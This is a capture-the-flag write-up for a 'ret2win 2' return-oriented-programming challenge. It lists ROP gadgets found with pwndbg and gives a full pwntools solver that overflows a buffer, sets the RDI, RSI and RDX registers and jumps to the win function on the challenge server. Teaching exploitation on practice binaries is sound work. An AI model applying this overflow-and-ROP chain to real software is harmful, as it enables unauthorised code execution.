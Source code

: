 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 2

> _Introduction to Return Oriented Programming (ROP). Di arsitektur x86-64, 3 argumen pertama dari saat memanggil fungsi diambil dari register RDI, RSI, dan RDX. Dengan tools seperti ropper atau ROPgadget, kita bisa dapetin gadget yang bisa ngisi register-register itu dengan nilai yang kita inginkan._
>
> _Author: zran_

{% file src="../../.gitbook/assets/ret2win2 (1).zip" %}

My first introduction to using actual ROP to solve a challenge, learned stuff at ir0nstone and used the knowledge to perform "Ret2Win with Parameters". Since this was a 64-bit binary, I had to do register popping. But first, I had to find which variable was connected to which:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Looking at the disassembly for the win function, I saw three comparisons and fortunately they were easily recognizable with their register names of RDI, RSI, and RDX.

```
pwndbg> rop --grep pop
0x00000000004011fb : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401219 : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x0000000000401216 : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004011f6 : mov byte ptr [rip + 0x2eab], 1 ; pop rbp ; ret
0x000000000040121c : mov ebp, esp ; pop rdi ; ret
0x000000000040121b : mov rbp, rsp ; pop rdi ; ret
0x0000000000401224 : nop ; pop rbp ; ret
0x00000000004011fd : pop rbp ; ret
0x000000000040121e : pop rdi ; ret
0x0000000000401222 : pop rdx ; ret
0x0000000000401220 : pop rsi ; ret
0x000000000040121a : push rbp ; mov rbp, rsp ; pop rdi ; ret
```

The author was nice enough to leave simple return gadgets for each required register pop, so here's the full solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19001
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19001)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

win = p64(0x401227)
POP_RDI = p64(0x40121e)
POP_RSI = p64(0x401220)
POP_RDX = p64(0x401222)
nop_ret = p64(0x40118f)

payload = b'A' * 120
payload += POP_RDI
payload += p64(0xdeadbeefdeadbeef)
payload += POP_RSI
payload += p64(0xabcd1234dcba4321)
payload += POP_RDX
payload += p64(0x147147147147147)
payload += nop_ret
payload += win

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
